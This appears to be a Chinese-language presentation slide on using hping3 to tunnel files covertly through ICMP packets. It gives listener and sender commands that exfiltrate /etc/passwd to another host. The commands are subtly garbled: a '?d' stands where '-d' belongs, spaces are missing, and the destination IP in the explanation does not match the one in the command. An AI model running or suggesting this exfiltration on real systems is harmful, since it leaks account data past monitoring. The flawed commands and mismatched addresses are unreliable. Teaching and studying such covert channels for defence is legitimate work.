

# 文件传输
Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：
hping3 192.168.1.159--listen signature --safe --icmp
监听ICMP包中的签名，根据签名解析出文件内容。
在发送端使用签名打包的ICMP包发送文件：
hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
将/etc/passwd密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。